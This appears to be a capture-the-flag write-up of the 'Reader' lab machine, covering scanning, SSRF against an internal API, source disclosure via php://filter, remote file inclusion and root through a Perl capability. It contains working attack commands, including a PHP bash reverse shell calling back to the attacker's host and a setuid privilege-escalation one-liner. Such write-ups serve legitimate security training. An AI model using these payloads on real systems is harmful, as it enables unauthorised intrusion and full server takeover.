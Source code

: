 ```yaml
---
title: 'Reader Writeup'
date: '2024-06-29'
tags: ['SSRF', 'RFI', 'Linux', 'Hacking Club']
draft: false
summary: 'The Reader machine has SSRF and RFI vulnerabilities that allow RCE and privilege escalation to root via capabilities in the Perl binary.'
images: ['/static/images/writeup-reader-images/logo-reader.png']
authors: ['default']
---
```


![Logo Reader](/static/images/writeup-reader-images/logo-reader.png)

---

### Port Scanning

`nmap -sV -sC -p- -v $IP --open`

```bash
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 1b:6f:d9:6f:08:c8:eb:59:76:5f:fe:f5:1f:28:b4:d2 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBCdE/+UDioqJcBqKEjyENBihhOMB9Ocue8I+pDmGchJZvrGwO2MbIiL6VLH+bqm08nrq+NdjzWM7TewudhK9viM=
|   256 81:51:ba:61:11:db:07:50:51:66:92:d8:e1:ff:68:36 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKH7CspTNqFcDLRTPhHJYggspYSAuzmq+DXCv2U/Q2Jq
80/tcp open  http    syn-ack Apache httpd 2.4.52 ((Ubuntu))
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Emergency Maintenance
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

This machine only has ports 22 (SSH) and 80 (HTTP) open.

### **Enumeration**

A simple webpage that seems to be under maintenance, with only the API service working.

![Página de manutenção](/static/images/writeup-reader-images/1.png)

Not much to do, so I did fuzzing to search for directories before looking at the API.

`gobuster dir -u $URL -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-small-directories.txt -x php,sh,txt,cgi,html,js,css,py`

```bash
Starting gobuster in directory enumeration mode
===============================================================
/api.php              (Status: 200) [Size: 56]
/index.php            (Status: 200) [Size: 17866]
/logfiles             (Status: 301) [Size: 315] [--> <http://172.16.4.104/logfiles/>]

```

## There's a directory called `logfiles` that will be useful later.

In the API section, it says it only accepts POST requests.

![API POST](/static/images/writeup-reader-images/2.png)

I captured the request using Burp to send it with POST.

![Burp requisicao](/static/images/writeup-reader-images/3.png)

It says a parameter called **URL** is missing.

For some reason, passing the parameter through Burp wasn't working, but it worked via curl:

![Curl POST](/static/images/writeup-reader-images/4.png)

`curl -X POST http://172.16.4.104/api.php -d "url=http://127.0.0.1"`

It is saving the request somewhere in a .txt file (Saved in /logfiles/ found via gobuster).

![Curl resposta](/static/images/writeup-reader-images/curl-1.png)

Since the parameter is called **url**, we can deduce this is an SSRF vulnerability.

I used this simple port scan to discover which internal ports the server has.

```bash
for port in 22 21 25 80 8080 3306 5432 8443 445 9000; do echo "Scanning port $port..."; curl -X POST -s -d "url=http://127.0.0.1:$port" "<http://172.16.4.104/api.php>" | cat; done
```

Two interesting ports were found with this port scan: 3306 and 8080.

![Portas interessantes](/static/images/writeup-reader-images/curl-2.png)

Now, make the request on port 8080 with curl and see.

`curl -X POST <http://172.16.4.104/api.php> -d "url=http://127.0.0.1:8080/"`

![Curl 8080](/static/images/writeup-reader-images/curl-3.png)

We can go to the **logfiles** directory to see the server's response.

![Logfiles resposta](/static/images/writeup-reader-images/logfile-output-1.png)

`curl -X POST <http://172.16.4.104/api.php> -d "url=http://127.0.0.1:8080/read.php"`

![Curl read.php](/static/images/writeup-reader-images/curl-4.png)

Reading the output, it says a parameter called **file** is missing.

![Logfiles output 2](/static/images/writeup-reader-images/logfile-output-2.png)

`curl -X POST <http://172.16.4.104/api.php> -d "url=http://127.0.0.1:8080/read.php?file=/etc/passwd"`

![Curl etc/passwd](/static/images/writeup-reader-images/curl-5.png)

![Logfiles output 3](/static/images/writeup-reader-images/logfile-output-3.png)

To better understand what the application is doing, we will read the read.php file using the `php://` schema.

Note that it is necessary to convert to base64, because otherwise the application will return a blank page.

`curl -X POST <http://172.16.4.104/api.php> -d "url=http://127.0.0.1:8080/read.php?file=php://filter/convert.base64-encode/resource=read.php"`

![Curl base64](/static/images/writeup-reader-images/curl-6.png)
![Logfiles output 4](/static/images/writeup-reader-images/logfiles-output-4.png)
![Decode base64](/static/images/writeup-reader-images/decode-base64.png)

`Include $_GET ['file']` indicates an RFI (Remote-File Inclusion) that we can use to gain access to the server.

## Foothold

`python3 -m http.server`

```bash
#shell.php
<?php system("/bin/bash -c 'bash -i >& /dev/tcp/10.0.31.150/1337 0>&1'"); ?>
```

![Python server](/static/images/writeup-reader-images/python-m-http-server.png)

Now just send the request to the server.

`curl -X POST <http://172.16.4.104/api.php> -d "url=http://127.0.0.1:8080/read.php?file=http://10.0.31.150:80/shell.php"`

![Foothold](/static/images/writeup-reader-images/foothold.png)

## Privilege Escalation

`getcap -r / 2>/dev/null`
![Privesc 1](/static/images/writeup-reader-images/privesc-1.png)
`/usr/bin/perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";’`
![Privesc 2](/static/images/writeup-reader-images/privesc-2.png)

## Proof

![Proof](/static/images/writeup-reader-images/proof.png)
